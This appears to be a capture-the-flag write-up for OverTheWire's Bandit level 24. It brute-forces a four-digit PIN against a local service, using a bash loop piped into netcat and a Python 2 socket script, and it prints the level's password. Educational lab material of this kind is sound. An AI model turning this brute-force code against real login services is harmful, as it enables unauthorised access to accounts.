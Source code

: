 Here we need to bruteforce our way to the password. No point entering our
tries by hand, so let's leverage the power of bash. First create a loop
to print the values, so we can be sure the input to the netcat command is 
going to be right

{% highlight console %}
bandit24@melinda:~$ for i in $(seq -f "%04g" 0 9999); do echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '${i}; done
.
.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9856
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9857
.
.
{% endhighlight %}

seems to ne what we want. Let's actually pass it onto the command. Because each 
iteration will take a while, we have plenty of time to stop it when it finds the 
right answer

{% highlight console %}
bandit24@melinda:~$ for i in $(seq -f "%04g" 0 9999); do echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '${i} | nc localhost 30002; done 
{% endhighlight %}

But who wants to sit there watching a screen? A quick Python script and we can 
leave it running until it finds the right PIN.
Sometimes you just have to be patient.

{% highlight python %}
import socket

def netcat(hostname, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    s.sendall(content)
    s.shutdown(socket.SHUT_WR)
    while 1:
        data = s.recv(1024)
        if data == "":
            break
        if 'I am the pincode' in repr(data):
            continue

        if 'Wrong' in repr(data):
            print 'no:', content
            return 0
        else:
            print repr(data)
            print content
            return 1

    print "Connection closed."
    s.close()

import sys

passw = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
count = 0
while (1):
    trypass = '%s %04d' % (passw, count)
    if (netcat('localhost', 30002, trypass)):
        break
    count += 1
{% endhighlight %}
